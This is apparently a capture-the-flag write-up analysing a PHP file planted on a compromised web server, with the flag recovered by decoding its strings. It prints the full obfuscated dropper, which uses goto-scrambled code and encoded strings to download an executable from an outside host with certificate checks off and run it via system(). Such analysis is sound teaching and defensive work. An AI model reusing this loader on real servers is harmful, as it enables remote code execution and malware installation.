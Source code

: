 # Compromised Network
## Description
A company that was compromised through a web vulnerability wrote to you and asked you to analyze the uploaded file. https://drive.google.com/file/d/1nIEpBkIjfnxLdcDHPPnT1FZZw-YkZ6VN/view?usp=share_link

## Task #1: Web Upload
Let's analyze the file 
```
<?php

goto rPWT0; rPWT0: set_time_limit(0); goto RYUyK; KmAz_: $WkyCp = curl_getinfo($zsKmS); goto X6zr3; ji5Q_: $vRdrc = "\155\x69\156\x65\x73\x77\x65\x65\x70\x65\162\x2e\x65\x78\145"; goto M5pF4; NuyZX: kQFBo: goto A20wO; nP6PB: goto kQFBo; goto G6Fhj; X6zr3: echo $WkyCp["\150\x74\x74\x70\137\x63\157\144\145"] == 200 ? "\x4f\x4b" : "\x45\122\x52\x4f\122\x20\x2d\40" . $WkyCp["\x68\164\x74\x70\x5f\143\157\x64\x65"]; goto nP6PB; dnT9_: fclose($e06v5); goto dRqYg; fdaCv: curl_exec($zsKmS); goto wtj5P; jzv0H: $zsKmS = curl_init(); goto SJMn5; wtj5P: if (curl_errno($zsKmS)) { goto Z40lA; } goto KmAz_; Xe49M: echo curl_error($zsKmS); goto NuyZX; A20wO: curl_close($zsKmS); goto dnT9_; dRqYg: $sXPPX = "\x53\x4b\55\x43\105\x52\x54\173\x72\x75\156\x6e\61\x6e\147\x5f\146\61\162\x35\x37\x5f\x31\x6e\x5f\x63\150\64\61\156\x7d"; goto i0Mbe; vKFxF: curl_setopt($zsKmS, CURLOPT_FILE, $e06v5); goto OK3Jl; RYUyK: $IR0Hx = "\150\x74\164\160\x73\x3a\57\57\x69\156\x74\x33\56\x73\153\57\155\x69\156\x65\163\167\x65\x65\x70\x65\x72\x2e\145\170\x65"; goto ji5Q_; DDrwT: curl_setopt($zsKmS, CURLOPT_SSL_VERIFYPEER, 0); goto fdaCv; ENwOf: curl_setopt($zsKmS, CURLOPT_SSL_VERIFYHOST, 0); goto DDrwT; OK3Jl: curl_setopt($zsKmS, CURLOPT_TIMEOUT, $PDVwa); goto ENwOf; G6Fhj: Z40lA: goto Xe49M; SJMn5: curl_setopt($zsKmS, CURLOPT_URL, $IR0Hx); goto vKFxF; M5pF4: $PDVwa = 30; goto YpodV; YpodV: $e06v5 = fopen($vRdrc, "\x77") or exit("\105\x72\x72\x6f\162\x20\157\x70\x65\156\x69\156\147\x20{$vRdrc}"); goto jzv0H; i0Mbe: system("{$vRdrc}\73\43{$sXPPX}");

?>
```

Two main functions for us to analyze are `curl_setopt` with `CURLOPT_URL` which sets URL to downlaod a file and `system` which executes a system command.

`curl_setopt($zsKmS, CURLOPT_URL, $IR0Hx)` url is `$IR0Hx`

Go to php interpreter and echo the string.
```
$ php -a
php > echo "\150\x74\164\160\x73\x3a\57\57\x69\156\x74\x33\56\x73\153\57\155\x69\156\x65\163\167\x65\x65\x70\x65\x72\x2e\145\170\x65";
https://int3.sk/minesweeper.exe
```

`system` cats 3 strings together
`\155\x69\156\x65\x73\x77\x65\x65\x70\x65\162\x2e\x65\x78\145` + `\73\43` + `\x53\x4b\55\x43\105\x52\x54\173\x72\x75\156\x6e\61\x6e\147\x5f\146\61\162\x35\x37\x5f\x31\x6e\x5f\x63\150\64\61\156\x7d`

```
$ php -a
php > echo "\155\x69\156\x65\x73\x77\x65\x65\x70\x65\162\x2e\x65\x78\145\73\43\x53\x4b\55\x43\105\x52\x54\173\x72\x75\156\x6e\61\x6e\147\x5f\146\61\162\x35\x37\x5f\x31\x6e\x5f\x63\150\64\61\156\x7d";
minesweeper.exe;#SK-CERT{runn1ng_f1r57_1n_ch41n}
```

### Flag #1
**SK-CERT{runn1ng_f1r57_1n_ch41n}**